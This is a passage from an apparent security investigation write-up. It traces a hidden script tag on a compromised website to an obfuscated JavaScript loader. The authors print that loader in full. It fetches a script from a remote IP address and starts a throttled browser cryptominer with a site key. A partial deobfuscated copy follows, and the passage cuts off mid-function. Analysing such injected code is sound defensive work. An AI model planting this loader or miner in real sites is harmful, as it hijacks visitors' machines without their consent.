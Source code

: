 ## Phishing Attack
We realize there are potentially 2 (common) ways to attacking this server: either through the **ssh** open port **22** or through the web application (hosted on port **80**). Since, we saw a lot of activity with the web-server, we thought of visiting the domain of the website and checking for suspicious elements on the background.

Upon visiting the subdomain site’s main page https://subdomain.website.ca, when inspecting the elements on the HTML page of the site, we found a hidden javascript tag code that has a suspicious link.

[<img src="{{ site.baseurl }}/assets/img/suspicious_script.png" alt="Suscpicious Script" style="width: 800px;"/>]({{ site.baseurl }}/)

Just like any (in)sane person would do, we downloaded the file and take a look:

```console
user@host:$  wget http://wt-23...full-http-control
user@host:$ cat full-http-control
var _0x17e1=["script","createElement","type","text/javascript","readyState","onreadystatechange","loaded","complete","onload","src","appendChild","head",
"getElementsByTagName","http://146.185.234.113/hhY6.js","undefined","stop","_client","56bc34061cd882609aab5de9d411b6e12be622137090334aa0697591bd8c7742","start"];
function loadScript(_0x17a8x2,_0x17a8x3){var _0x17a8x4=document[_0x17e1[1]](_0x17e1[0]);_0x17a8x4[_0x17e1[2]]= _0x17e1[3];if(_0x17a8x4[_0x17e1[4]])
{_0x17a8x4[_0x17e1[5]]= function(){if(_0x17a8x4[_0x17e1[4]]== _0x17e1[6]|| _0x17a8x4[_0x17e1[4]]== _0x17e1[7]){_0x17a8x4[_0x17e1[5]]= null;_0x17a8x3()}}}
else {_0x17a8x4[_0x17e1[8]]= function(){_0x17a8x3()}};_0x17a8x4[_0x17e1[9]]= _0x17a8x2;document[_0x17e1[12]](_0x17e1[11])[0][_0x17e1[10]](_0x17a8x4)}
loadScript(_0x17e1[13],function(){setTimeout(function(){if( typeof (miner)!= _0x17e1[14]){try{miner[_0x17e1[15]]()}catch(e){}};if( typeof (_client)!=
_0x17e1[14]){try{_client[_0x17e1[15]]()}catch(e){}};document[_0x17e1[16]]=  new
Client.Anonymous(_0x17e1[17],{throttle:0.3});document[_0x17e1[16]][_0x17e1[18]](Client.FORCE_MULTI_TAB)},1000)})
```
A cleaner version would be:
```
var _0x17e1=
["script",
"createElement",
"Type",
"text/javascript",
"readyState",
"Onreadystatechange",
"Loaded",
"Complete",
"Onload",
"Src",
"appendChild",
"Head",
"getElementsByTagName",
"http://146.185.234.113/hhY6.js",
"Undefined",
"Stop",
"_client",
"56bc34061cd882609aab5de9d411b6e12be622137090334aa0697591bd8c7742",
"Start"];
function loadScript(_0x17a8x2,_0x17a8x3){
  var _0x17a8x4 = document[_0x17e1[1]](_0x17e1[0]);
  _0x17a8x4[_0x17e1[2]] = _0x17e1[3];
if(_0x17a8x4[_0x17e1[4]]){
  _0x17a8x4[_0x17e1[5]] = function(){
    if(_0x17a8x4[_0x17e1[4]] == _0x17e1[6] || _0x17a8x4[_0x17e1[4]] == _0x17e1[7]){
```
